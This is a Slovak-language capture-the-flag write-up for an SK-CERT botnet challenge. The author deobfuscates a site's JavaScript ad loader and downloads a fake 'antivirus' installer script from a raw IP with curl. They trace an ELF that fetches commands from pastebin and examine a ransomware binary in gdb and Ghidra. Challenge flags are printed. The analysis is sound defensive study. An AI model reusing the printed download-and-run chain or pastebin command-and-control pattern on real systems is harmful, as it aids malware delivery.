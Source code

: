 # SK-CERT - BOTNET
> Dostali sme hlásenie že na stránke ventilsro.github.io vyskakuje podozrivé okno. Mohli by ste to skontrolovať? <br/>
Reported Difficulty: 2

:exclamation: *Súbory a zadania z tejto súťaže môžete stiahnuť z https://ulozto.net/file/9qLDe5asaCHJ/*

## 1 Záhadné okno
> Nietorý použivatelia nám občas nahlásia vyskakovacie okno v strede obrazovky, je potrebné túto aktivitu preveriť.

> Body: 3

Pozrieme sa na https://ventilsro.github.io/, zvyčajne prvý flag býva v page source, ale v tomto prípade nič tam nie je. Zaujímavé ale vyzerá ten javascript:

![](images/2022-03-05-14-24-18.png)

Pozrieme sa naň a máme prvý flag:

![](images/2022-03-05-14-24-31.png)

```
flag: SK-CERT{c4n_y0u_f1nd_17}
```

## 2 Takže pre toto!
> Keď už vieme ako funguje javascript, Musíme zistiť či náhodou neobsahuje niečo škodlivé.

> Body: 6

Ten java script vyzerá podozrivo, pravdepodobne bol použitý nejaký obfuscator, skúsime hľadať online, napríklad tento: http://www.addressmunger.com/javascript_obfuscator/index.php
Vložíme tam náš javascript, dva krát dáme decode a máme šťastie že, Arci-Zločan použil default obfuscator.

![](images/2022-03-05-14-27-58.png)

Je aj iná cesta, brute-force debug, lebo keby Arci-Zločan použil nejaký svoj obfuscator tak by sme nemali také šťastie. Na brute-force stačí použiť Chrome dev tools, dát tam nejaký break point a skúšať čo sa udeje:

![](images/2022-03-05-14-28-19.png)

Po niekoľkých pokusoch sme odhalili náš skutočný javascript:

![](images/2022-03-05-14-28-29.png)

Javascript: 
```
function process(text){document.getElementById("data_from_int").innerHTML=text}var ad=0;if(navigator.appVersion.indexOf("Linux")){ad=Math.floor(Math.random()*50+1)}else{ad=Math.floor(Math.random()*50+51)}fetch('https://int3.sk/reklama'+ad+'.txt').then(response=>response.text()).then(text=>process(text))
```

Síce žiadny tam flag nie je, ale z kódu vidíme, že sa reklama ťahá z `'https://int3.sk/reklama'+ad+'.txt'`, kde `ad` je náhodne číslo medzi `1` a `101`, tak skúsme...Zdá sa, že Arci-Zločan chce aby sme skúsili 100 rôznych adries či sa v niektorej neukrýva ďalší flag… skúsime našu vernú zbraň: `curl https://int3.sk/reklama[1-100].txt` a máme ďalší flag:

![](images/2022-03-05-14-31-18.png)

```
flag: SK-CERT{l3g17_4nt1v1ru5}
```

## 3 Antivirus 3000
> Reklama, a ponúka stiahnutie antivírusu? Podozrivé! Je potrebné zistiť čo reálne stahujeme.

> Body: 3

Z predchádzajúceho kroku vidíme, že reklama číslo 43 okrem flagu, ukrýva aj odkaz na nejaký shell script, tak sa poďme na to pozrieť: `curl http://194.182.66.53/antivirus3000_installer.sh` a máme hneď ďalší flag:  

![](images/2022-03-05-14-34-56.png)

```
flag: SK-CERT{1n574l_17_4lr34dy}
```

## 4 Elf
> Dostali sme ďalšie hlásenie že niekoľko použivatelov tejto stránky malo poškodený počítač, je potrebné vyšetrovať ďalej

> Body: 6

Z predchádzajúcej úlohy vidíme, že shell script niečo stiahne z `https://rentry.co/vpvqs/raw` a uloží to ako súbor `antivirus3000`. Sťahujeme ten súbor a zisťujeme, že je to štandardná Linuxová binárka. 
```
$ file antivirus3000 
antivirus3000: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b428836a750d2fd0a3bfccf09080250e5372b0fe, for GNU/Linux 3.2.0, not stripped
```
Po spustení binárky žiadny output ale cez Wireshark vidíme, že komunikuje s `pastebin.com`, tak pustime Burp a skúsime zachytiť tú požiadavku. 

![](images/2022-04-19-11-11-32.png)

*Keďže je to https komunikácia, museli sme pridať Burp certifikát do trusted root certificate store.*

Tu vidíme Request a Response:

![](images/2022-04-19-11-12-59.png)

Stiahneme si ten `runner.tar` a vidíme tam `flag.txt`.. ktorý ale nie je pre tuto úlohu, asi bude pre jednu z ďalších.

Púšťame sa do študovania forenznej analýzy `ELF`. `Strings` nám nezistil žiadny flag, jedine že je binárka používa `curl`, čo znamená, že asi otvára nejaké sieťové spojenie niekam.
Skúšame `strace -o trace.out ./antivirus3000` ani to nám nič nehovorí.

Ďalšie hodiny som strávil s debugovaním binárky, stepovaním inštrukcií cez gdb a Ghidra, aj keď v tom moc skúsenosti nemám.
Zaujal ma kód v ktorom sa generuje url pre curl: 
```
curl_easy_setopt(local_18,0x2712,local_268);
```

![](images/2022-04-19-14-24-14.png)

Snažil som sa nejak zistiť čo obsahuje `local_286` a po hodinách `ni`, `si`, `print $rdi` a podobných vecí, ktoré len tak-tak tuším čo znamenajú sa mi podarilo dostepovať pred call tej funkcie, kde som si pozrel obsah pamäte na `[RBP + -0x260]`

![](images/2022-04-19-14-29-03.png)

a zobrazením obsahu pamäte som získal známy string, ktorý bol akceptovaný!

![](images/2022-04-19-14-31-07.png)

```
flag: SK-CERT{p45t3b1n_15_hug3}
```

P.S. mohol som toto vyriešiť aj skôr, keby som si uvedomil, že 
```
5555555555a5 88 94 05        MOV        byte ptr [RBP + RAX*0x1 + -0x260],DL
             a0 fd ff ff

```
je to vlastne adresa pre `local_268[int(conter)]`, nie pre cely string `local_268`. Ja som sledoval obsah pamäti pomocou `x/s $rbp+$rax*0x1-0x260` a neuvedomil som si, že pozerám iba posledný byte:

```
 (gdb)x/s $rbp+$rax*0x1-0x260
0x7fffffffdcbb: "4"
 (gdb)x/s $rbp-0x260
0x7fffffffdc90: "https://pastebin.com/raw/9gQzJk4j#SK-CERT{p4"
```

## 5 Vykonané príkazy
> Zistili ste, že program spúšťa príkazy z pastebin. Teraz treba zistiť aké konkrétne.

> Body: 3

Tu som použil flag, ktorý som získal na začiatku predchádzajúcej úlohy, kde som odchytil komunikáciu s pastebin a stiahol `runner.tar`, ktorý obsahoval `flag.txt`

```
flag: SK-CERT{4n0th3r_f1lthy_3lf}
```

## 6 Ďalšia binárka
> Ďalší binárny súbor? Pustite sa do analýzy

> Body: 6

Po spustení `./runner` sa nič nedeje... niet divu. Otvárame `runner` v Ghidre a pozeráme `main` funkciu:

![](images/2022-04-19-16-07-10.png)

Podlá analýzy main, kód otvára aktuálny adresár, a ak sa tam nachádza adresár menom "dRIA2HpoQrC24jEoww4m" tak ho zašifruje. 
Vyskúšame vytvoriť adresár `dRIA2HpoQrC24jEoww4m` a spustiť `./runner`:

![](images/2022-04-19-16-18-31.png)

Takže, takto sa dostaneme ďalej do `encrypt_file` funkcie, ktorá podlá analýzy nerobí nič zaujímavé sama o sebe, otvára adresár, číta meno adresára a vola ďalšiu funkciu `encrypt`, ktorá už vyzerá zaujímavo, najmä `for` loop ktorý vyzerá podozrivo, ako z predošlých úloh kde sa generuje flag:

![](images/2022-04-19-16-27-23.png)

Skúšame krokovať cez `gdb`, nastavíme break point najprv na `main`, potom na `encrypt_file` a nakoniec sa dostaneme do `encrypt` a krokujeme do toho `for` loopu, a tento krát využijeme príkaz na vykonanie viac krokov naraz:

````
python [gdb.execute('ni') for x in range(12)]
````
Po niekoľkých opakovaní úspešne získavame ďalší flag:

![](images/2022-04-19-16-09-26.png)

```
flag: SK-CERT{th3_k3y}
```

## 7 Dekryptor
> Z analýzy sme zistili že sa jedná o ransomvér a klúč je pevne zakódovaný v zdrojovom kóde. Je potrebné napísať dekryptor a dekryptovať následovné súbory: https://drive.google.com/file/d/1Iv_Bl3yI8Pncd5iq3xaGdqnaScVwTO3Q/view?usp=sharing

> Body: 6

Tak toto už si netrúfam...možno nabudúce.

